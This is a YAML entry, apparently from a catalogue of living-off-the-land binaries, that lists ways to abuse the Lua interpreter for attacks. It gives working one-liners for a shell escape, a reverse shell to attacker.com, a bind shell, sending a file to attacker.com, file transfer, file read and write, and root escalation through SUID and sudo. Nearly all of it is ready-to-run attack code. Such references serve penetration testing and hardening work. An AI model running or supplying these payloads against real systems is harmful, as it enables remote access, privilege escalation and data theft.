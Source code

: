 ```yaml
---
functions:
  execute-interactive:
    - code: lua -e 'os.execute("/bin/sh")'
  reverse-shell-non-interactive:
    - description: Run ``nc -l -p 12345`` on the attacker box to receive the shell. This requires `lua-socket` installed.
      code: |
        export RHOST=attacker.com
        export RPORT=12345
        lua -e 'local s=require("socket");
          local t=assert(s.tcp());
          t:connect(os.getenv("RHOST"),os.getenv("RPORT"));
          while true do
            local r,x=t:receive();local f=assert(io.popen(r,"r"));
            local b=assert(f:read("*a"));t:send(b);
          end;
          f:close();t:close();'
  bind-shell-non-interactive:
    - description: Run `nc target.com 12345` on the attacker box to connect to the shell. This requires `lua-socket` installed.
      code: |
        export LPORT=12345
        lua -e 'local k=require("socket");
          local s=assert(k.bind("*",os.getenv("LPORT")));
          local c=s:accept();
          while true do
            local r,x=c:receive();local f=assert(io.popen(r,"r"));
            local b=assert(f:read("*a"));c:send(b);
          end;c:close();f:close();'
  upload:
    - description: Send a file to a TCP port. Run `nc -l -p 12345 > "file_to_save"` on the attacker box to collect the file. This requires `lua-socket` installed.
      code: |
        RHOST=attacker.com
        RPORT=12345
        LFILE=file_to_send
        lua -e '
          local f=io.open(os.getenv("LFILE"), 'rb')
          local d=f:read("*a")
          io.close(f);
          local s=require("socket");
          local t=assert(s.tcp());
          t:connect(os.getenv("RHOST"),os.getenv("RPORT"));
          t:send(d);
          t:close();'
  download:
    - description: Fetch remote file sent to a local TCP port. Run `nc target.com 12345
        < "file_to_send"` on the attacker box to send the file. This requires `lua-socket` installed.
      code: |
        export LPORT=12345
        export LFILE=file_to_save
        lua -e 'local k=require("socket");
          local s=assert(k.bind("*",os.getenv("LPORT")));
          local c=s:accept();
          local d,x=c:receive("*a");
          c:close();
          local f=io.open(os.getenv("LFILE"), "wb");
          f:write(d);
          io.close(f);'
  file-write:
    - code: lua -e 'local f=io.open("file_to_write", "wb"); f:write("data"); io.close(f);'
  file-read:
    - code: lua -e 'local f=io.open("file_to_read", "rb"); print(f:read("*a")); io.close(f);'
  suid-limited:
    - code: ./lua -e 'os.execute("/bin/sh")'
  sudo-enabled:
    - code: sudo lua -e 'os.execute("/bin/sh")'
---
```

